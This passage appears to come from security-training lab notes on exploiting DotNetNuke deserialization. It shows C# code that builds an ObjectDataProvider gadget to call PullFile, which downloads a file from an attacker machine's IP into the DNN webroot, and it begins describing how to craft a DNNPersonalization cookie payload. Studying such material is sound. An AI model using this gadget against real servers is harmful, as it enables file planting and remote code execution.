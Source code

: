 ```java
{
	obj2 = this.InvokeMethodOnInstance(out ex);
	if (ex != null && ex2 != null)
	{
		ex = ex2;
	}
}
```

### Demonstration (Test Application)

The following code uses ODP to demonstrate a Pull file against our Kali machine. We initialize it as a `.sln` file and compile into executable with VS Code. 

```java
using System;
using System.IO;
using DotNetNuke.Common.Utilities;
using System.Windows.Data;
using System.Collections;

namespace ODPSerializer
{
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider myODP = new ObjectDataProvider();
            myODP.ObjectInstance = new FileSystemUtils();
            myODP.MethodName = "PullFile";
            myODP.MethodParameters.Add("http://192.168.45.184/test.txt");
            myODP.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt");
            Console.WriteLine("Done!");
        }
    }
}
```

Once compiled, we simply run the executable in dnSpy. 

We set a breakpoint on the `InvokeMethodOnInstance` function call in the ODP object, and then execute our function. This breakpoint is hit 3 times — once for each of the method invocations (to set method name and then add the 2 parameters. After which, we should see the web request appear in our terminal window.

- Note that in this lab, since iwr is dependent on Internet explorer, we need to keep burpsuite running since proxy is enabled

## Creating Payload

DNNPersonalization cookie payload has to be in XML format. It has to contain the profile node along with the item tag, which contains a “type” attribute describing enclosed object. Instead of trying to manually re-construct the structure, can re-use the DNN function that creates the cookie value. This function is called `SerializeDictionary` in the `DNN.Common.Utilities.XmlUtils` namespace. 
